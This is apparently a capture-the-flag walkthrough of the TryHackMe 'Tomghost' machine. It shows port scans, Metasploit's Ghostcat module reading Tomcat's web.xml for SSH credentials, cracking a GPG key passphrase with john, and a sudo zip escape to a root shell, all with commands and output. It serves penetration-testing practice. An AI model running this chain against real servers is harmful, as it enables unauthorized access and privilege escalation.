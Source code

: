 # Tomghost

## NMAP

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -p- 10.10.104.118                                 
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-21 06:29 EST
Nmap scan report for 10.10.104.118
Host is up (0.050s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 76.37 seconds
                                                                                  
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sSVC -p 22,53,8009,8080 10.10.104.118 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-21 06:31 EST
Nmap scan report for 10.10.104.118
Host is up (0.049s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.67 seconds
```

## Ghostcat

port 8009 open and no other web port open

AJP is a wire protocol. It an optimized version of the HTTP protocol to allow a standalone web server such as Apache to talk to Tomcat. Historically, Apache has been much faster than Tomcat at serving static content. The idea is to let Apache serve the static content when possible, but proxy the request to Tomcat for Tomcat related content

<img src="images/ghostcat.png">


Due to a flaw in the Tomcat AJP protocol, an attacker can read or include any files in the webapp directories of Tomcat. For example, An attacker can read the webapp configuration files or source code. In addition, if the target web application has a file upload function, the attacker may execute malicious code on the target host by exploiting file inclusion through Ghostcat vulnerability.

Apache Tomcat 9.x < 9.0.31 is affected

### Exploiting this using metasploit

```
msf6 > search ghostcat

```

```
msf6 > use 0
msf6 auxiliary(admin/http/tomcat_ghostcat) > show opiton
[-] Invalid parameter "opiton", use "show -h" for more information
msf6 auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://docs.me
                                         tasploit.com/docs/using-metasploit/basi
                                         cs/using-metasploit.html
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit

```

In this case we simply include and retrieve the contents of the /WEB-INF/web.xml file. In this file we can find the following credentials to ssh.

**skyfuck:8730281lkjlkjdqlksalks**


## Getting Merlin

```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: key C6707170: secret key imported
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```


```
skyfuck@ubuntu:~$ gpg -d -o credential.txt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

```

We need a password.

Get the gpg key to you attacking machine and lets try to crack the password.

```
                                          
┌──(kali㉿kali)-[~/Desktop]
└─$ gpg2john tryhackme.asc > gpgJohnKey

```
```
┌──(kali㉿kali)-[~/Desktop]
└─$ john gpgJohnKey --wordlist=/home/kali/Desktop/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2023-11-21 07:14) 5.882g/s 6305p/s 6305c/s 6305C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


```
skyfuck@ubuntu:~$ gpg -d -o credential.txt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
skyfuck@ubuntu:~$ cat credential.txt 
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

```
$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ 
```

## PrivEsc


```
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

<img src="images/zip.png">


```
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
```